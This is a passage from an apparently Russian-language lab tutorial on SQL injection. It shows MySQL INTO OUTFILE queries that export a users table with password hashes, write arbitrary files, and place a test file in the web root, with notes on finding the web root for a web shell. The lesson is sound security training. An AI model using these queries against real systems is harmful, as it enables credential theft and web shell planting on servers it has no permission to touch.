 Чтобы его использовать, мы можем добавить после нашего запроса `INTO OUTFILE '...'` экспорт результатов `users` в указанный нами файл `/tmp/credentials`. В приведенном ниже примере вывод таблицы сохраняется в файле:
```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```
Если мы перейдем к внутреннему серверу и файлу, мы увидим содержимое этой таблицы:
```sql
Heiliara@htb[/htb]$ cat /tmp/credentials 

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```
Также есть возможность напрямую вставлять строки в файлы, что позволяет нам записывать произвольные файлы на внутренний сервер.
```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```
Когда мы получаем файл, мы видим этот текст:
```bash
Heiliara@htb[/htb]$ cat /tmp/test.txt 

this is a test
```
```bash
Heiliara@htb[/htb]$ ls -la /tmp/test.txt 

-rw-rw-rw- 1 mysql mysql 15 Jul  8 06:20 /tmp/test.txt
```

Как мы видим выше, файл `test.txt` был успешно создан и принадлежит пользователю `mysql`.

>[!Note]
>Расширенный экспорт файлов использует функцию 'FROM_BASE64("base64_data")' для того, чтобы иметь возможность записывать длинные/расширенные файлы, включая двоичные данные.

---

## Запись файлов через SQL-инъекцию

Давайте попробуем записать текстовый файл в веб-корневой каталог и проверим, есть ли у нас права на запись. Приведенный ниже запрос должен записать данные `file written successfully!` в файл `/var/www/html/proof.txt`, к которому мы затем сможем получить доступ в веб-приложении:
```sql
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

>[!Note]
>Чтобы написать веб-оболочку, мы должны знать базовую веб-директорию для веб-сервера (т.е. веб-корневой каталог). Один из способов найти его — использовать для чтения конфигурацию сервера, например, конфигурацию Apache по адресу `/etc/apache2/apache2.conf`, конфигурацию Nginx по адресу `/etc/nginx/nginx.conf`, или конфигурацию IIS по адресу `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, или мы можем поискать в Интернете другие возможные места для конфигурации. Кроме того, мы можем запустить сканирование с помощью фаззинга и попытаться записать файлы в различные возможные веб-корни, используя [этот список для Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) или [этот список для Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Наконец, если ничего из вышеперечисленного не работает, мы можем использовать отображаемые нам ошибки сервера и попытаться найти веб-каталог таким образом.
